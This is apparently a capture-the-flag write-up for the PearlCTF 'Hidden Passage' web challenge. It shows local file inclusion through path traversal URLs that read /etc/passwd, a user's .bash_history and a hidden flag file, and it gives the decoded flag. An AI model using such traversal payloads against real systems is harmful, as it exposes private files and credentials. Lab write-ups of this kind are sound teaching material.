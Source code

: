 # Solve Writeup - Hidden Passage

## **Challenge Description**

APD messed up while setting up the system—now files are leaking! Can you help uncover the hidden secrets?

---

## **Solution**

### **Step 1: Discovering the LFI Vulnerability**

Upon visiting the challenge URL, inspecting the page source will reveal a hint:

```
Strange how everyone leaves a hint.txt when setting up a new profile... Maybe it's worth a look?
```

This suggests that there might be interesting files left behind.

```
WARNING: Sensitive user credentials are stored in 'passwd'. Do NOT share.
```

This strongly hints at an LFI (Local File Inclusion) vulnerability. Testing with a common LFI payload:

```
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../etc/passwd
```

Will successfully leak the system's `/etc/passwd` file, confirming the vulnerability.

---

### **Step 2: Finding the Next Clue**

In the `/etc/passwd` output, you will notice the presence of a user `lfi-user`. Attempting to access their home directory:

```
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../home/lfi-user/hint.txt
```

Will reveal the content:

```
The past holds secrets... People often retrace their steps to find what was lost.
```

This hints at looking into `.bash_history`, where previous commands might give more information.

```
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../home/lfi-user/.bash_history
```

Will show:

```
cat /var/www/html/page/dev_notes.txt
ls /var/www/html/page/
```

---

### **Step 3: Searching for Hidden Files**

Accessing `dev_notes.txt`:

```
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=dev_notes.txt
```

Contains:

```
The real prize isn’t here... It might be "hidden" in the shadows, just a few steps **behind** where you are looking.
Only the curious will uncover the "flag".
```

The second line suggests that the flag is inside a file named `flag`.

This suggests that the flag is stored somewhere outside the usual `/var/www/html/page/` directory.

---

### **Step 4: Finding the Hidden Flag**

The clue from `dev_notes.txt` states that the real prize is "hidden" and "a few steps behind." This suggests looking in directories that may not be immediately visible. Since the web directory is `/var/www/html/`, going back (`../`) and checking `/var/www/` for hidden locations is a logical next step.

Testing further:

```
http://hidden-passage.ctf.pearlctf.in:30013/index.php?page=../../../../var/www/hidden/flag.php
```
This aligns with the clue about "shadows" and "hidden." 

Reveals:

```
95GMpVTdMNjbJ9VZMFjZfxGNjBDb7xmchVGc
```

At this point, looking at the challenge screen, you will notice that the title at the top is reversed:

**"?GALF EHT DNIF UOY NAC"**

This suggests that the flag is reversed. Reversing the leaked string:

```python
encoded_string = "95GMpVTdMNjbJ9VZMFjZfxGNjBDb7xmchVGc"
reversed_string = encoded_string[::-1]
print(reversed_string)
```

Will give:

```
cGVhcmx7bDBjNGxfZjFMZV9JbjNMdTVpMG59
```

Decoding from Base64:

```
pearl{l0c4l_f1Le_In3Lu5i0n}
```

---

## **Flag:**

```
pearl{l0c4l_f1Le_In3Lu5i0n}
```

---

